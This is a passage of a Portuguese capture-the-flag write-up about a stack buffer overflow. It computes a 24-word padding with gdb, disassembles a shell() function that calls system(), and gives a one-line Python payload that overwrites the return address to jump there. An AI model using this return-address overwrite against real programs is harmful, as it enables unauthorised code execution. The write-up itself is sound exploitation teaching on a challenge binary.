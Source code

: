 De fato, esse é o local da string. Além disso, repare que em `0xbffffbfc` temos o endereço `0x080487e6`! Portanto:

```sh
>>> 0xbffffbfc - 0xbffffbe4
24L
```

24 é o padding! Portanto, devemos escrever 24 palavras com iniciais aleatórias para exploitar o buffer (considerando a primeira que exploita o identador) e, logo após, mais 4 que representam o endereço da primeira istrução de `shell()`

Realizando o disassembly de `shell()`:

```sh
gdb-peda$ disas shell
Dump of assembler code for function shell:
   0x080486fd <+0>:	push   ebp
   0x080486fe <+1>:	mov    ebp,esp
   0x08048700 <+3>:	sub    esp,0x18
   0x08048703 <+6>:	mov    DWORD PTR [esp],0x8048890
   0x0804870a <+13>:	call   0x80485c0 <puts@plt>
   0x0804870f <+18>:	mov    DWORD PTR [esp],0x804889b
   0x08048716 <+25>:	call   0x80485d0 <system@plt>
   0x0804871b <+30>:	leave
   0x0804871c <+31>:	ret
End of assembler dump.
```

Com o endereço `0x080486fd`, podemos fabricar o payload do exploit com o comando:

`python -c 'print ("B" * 0x0f) + ("A\n" * 0x17) + "\xfd\n\x86\n\x04\n\x08\n"'`

## Ferramentas utilizadas:

- [GEF](https://github.com/hugsy/gef), uma extensão para o [GDB](https://www.gnu.org/savannah-checkouts/gnu/gdb/index.html)
- [GHIDRA](https://ghidra-sre.org/), uma ferramenta de análise de binários.
- [pwntools](https://github.com/Gallopsled/pwntools), uma biblioteca de Python para fabricação de exploits.
